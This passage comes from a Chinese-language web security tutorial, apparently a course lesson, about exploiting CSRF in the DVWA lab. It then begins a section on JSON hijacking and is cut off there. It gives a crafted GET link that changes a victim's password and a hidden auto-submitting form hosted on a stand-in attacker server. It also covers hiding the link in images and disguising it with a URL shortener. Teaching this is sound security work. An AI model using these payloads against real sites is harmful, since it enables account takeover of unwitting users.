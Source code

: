 <Image alt="Drawing 3.png" src="https://s0.lgstatic.com/i/image2/M01/04/CE/Cip5yF_2hA-AM63XAADlUkAUtF0820.png"/> 
  
图 4：更改密码的请求包

抓包后发现只是个 GET 请求，那利用起来就简单了：直接构造以下链接发给受害者，受害者点击后就会被修改密码为你设置的密码。如下所示：

```java
http://127.0.0.1/vulnerabilities/csrf/?password_new={你设置的密码}&password_conf={你设置的密码}&Change=Change
```

像这种 GET 型的 CSRF 漏洞利用就是仅需要修改下原 GET 的参数值，构造个链接发给对方就可以了；甚至直接使用图片链接嵌入到受害者可能访问的页面（博客、论坛、邮件等等），也可以实现漏洞的利用，这种利用方式更加隐蔽。

如果是 POST 请求，就需要编写利用代码，用 JS 脚本去实现自动提交表单，然后把它放在自己控制的服务器上。假设存放地址为 http://hacker.com/exploit.html ，再生成短网址 http://dwz.date/d74a 发给受害者。


<Image alt="Drawing 4.png" src="https://s0.lgstatic.com/i/image2/M01/04/D0/CgpVE1_2hBiALUGsAAQ2XWTdSOE628.png"/> 
  
图 5：短网址生成

exploit.html 利用代码如下：

```xml
<html>
<form name = "test" action = "http://127.0.0.1/vulnerabilities/csrf" method = "post" >
<input type = "hidden" value="hacker" name="password_new" >
<input type = "hidden" value="hacker" name="password_conf" >
<input type = "hidden" value="Change" name="Change" >
</form>
<script>document.test.submit();</script>
</html>
```

这里是就模拟原网站的表单提交内容设置的，每个 input 都添加 type="hidden" 的属性是为了不在网页中显示，最后再利用 document.test.submit() 去自动提交表单，其中 "test" 是指 form 名单。

如果受害者访问上述包含 exploit.html 的 http://dwz.date/d74a ，就会发起以下请求：


<Image alt="Drawing 5.png" src="https://s0.lgstatic.com/i/image/M00/8C/F6/CgqCHl_2hCCAEyT6AABwbigIZJo638.png"/> 
  
图 6：通过 POST 请求利用 CSRF 漏洞

DVWA 的 CSRF 题目没有 POST 请求，上述的利用方式主要介绍的是 POST 类型的利用手法。这种方法反而比较常用，相信你在未来的 CSRF 测试中能够用上。

### JSON 劫持攻击

JSON（JavaScript Object Notation，JavaScript 对象符号）是一种可以序列化任意数据，并能被 JavaScript 注释器直接处理的简单数据交换格式。我们来看一段 JSON 格式的包含用户信息的数据：

```json
{ 
  "people":[ 
    {
      "name": "Brett",
      "email":"Brett@qq.com"
    },
    {
      "name":"Jason",
      "Jason@lagou.com"
    }
  ]
}
```
